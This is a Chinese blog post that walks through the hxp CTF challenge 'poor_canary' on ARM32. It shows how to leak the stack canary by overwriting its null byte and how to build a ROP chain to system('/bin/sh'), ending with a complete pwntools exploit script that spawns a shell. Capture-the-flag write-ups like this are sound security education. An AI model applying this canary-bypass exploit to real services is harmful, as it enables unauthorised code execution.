 ```yaml
---
layout:     post
title:      绕过canary方法
subtitle:    
date:       2018-12-17
author:     XT
header-img: img/post-bg-coffee.jpeg
catalog: 	 true
tags:
    - 安全
---
```



> hxp题目poor_canary

 源代码如图

![1545020682275](https://raw.githubusercontent.com/xineting/xineting.github.io/master/img/1545020682275.png)

arm32架构的题目

ida中分析

​      ![1545020712524](https://raw.githubusercontent.com/xineting/xineting.github.io/master/img/1545020712524.png)

 

当时分析以为v7就是canary溢出的buf，不清楚canary保护会加一段canary4字节校验。及v9。

所以真实的v7=buf+‘\n’+校验  之后就是ebp和返回地址，我们arm的传参方法为：r0-r3 ，pc为我们的函数地址。

我们找到的rop链为：

![1545021078066](https://raw.githubusercontent.com/xineting/xineting.github.io/master/img/1545021078066.png)

 所以我们可以构造如图所示的payload，

![1545021104176](https://raw.githubusercontent.com/xineting/xineting.github.io/master/img/1545021104176.png)

  sys和binsh可以在ida中找到。

所以我们现在只需要寻找我们的canary的值，即v8，我们还需要把最后的\n给覆盖，所以我们可以这么做

 ```python
sh.send("a"*41)
sh.recvuntil("a"*41)
r=sh.recv(3)
 ```



 即先传41个a，这时候我们的canary就可以传过来了。

如图所示，我们把第41的地方‘0’覆盖为a，就可以打印出来canary的值了。	

 ![1545021892212](https://raw.githubusercontent.com/xineting/xineting.github.io/master/img/1545021892212.png)

最后的脚本如图：

 ```python
from pwn import *
import sys
context.arch = "arm"
context.os = "linux"
context.log_level = 'debug'
context.terminal = ['tmux', 'split', '-h']
context.endian="little"
bina=0x71eb0
sys=0x16d90
r0=0x26b7c
sh=process("./canary")
sh.recvuntil("> ")
sh.send("a"*41)
sh.recvuntil("a"*41)
r=sh.recv()
canary=u32("\x00"+r)
print "canary = ",hex(canary)
buf  = "A"*40
buf += p32(canary)
buf += "B"*12
buf += p32(r0)
buf += p32(bina)
buf += "C"*4
buf += p32(sys)
sh.send(buf)
sh.recvuntil("> ")
sh.send("\n")
sh.interactive()
 ```



 

